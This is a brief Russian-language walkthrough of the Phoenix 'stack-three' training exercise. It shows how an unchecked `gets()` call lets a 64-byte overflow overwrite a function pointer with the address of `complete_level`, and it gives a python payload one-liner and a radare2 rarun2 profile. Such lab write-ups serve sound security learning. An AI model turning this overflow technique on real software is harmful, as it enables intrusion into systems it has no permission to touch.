 Необходимо изменить значение поля `*fp` в структуре на адрес функции `complete_level`\
```
struct {
    char buffer[64];
    volatile int (*fp)();
} locals;
```

Уязвимое место `gets(locals.buffer);`\

файл является позиционнозависимым, следовательно адреса не будут меняться.

находим адрес функции `complete_level`\
![alt text](../images/stack-three/1.png)

заполняем профиль
```
#!/usr/bin/rarun2
stdin=/opt/phoenix/amd64/inputfileSTh
```

Заполняем файл inputfileSTh
```
python -c "print('A' * 64 + '\x9d\x06\x40\x00')" > inputfileSTh
```

И убираем байт \0a
```
truncate -s -1 inputfileSTh
```

Содержимое файла \
![alt text](../images/stack-three/2.png)

стек до\
![alt text](../images/stack-three/3.png)

стек после\
![alt text](../images/stack-three/4.png)

код проверки\
![alt text](../images/stack-three/5.png)

содержимое rax\
![alt text](../images/stack-three/6.png)

победа\
![alt text](../images/stack-three/7.png)
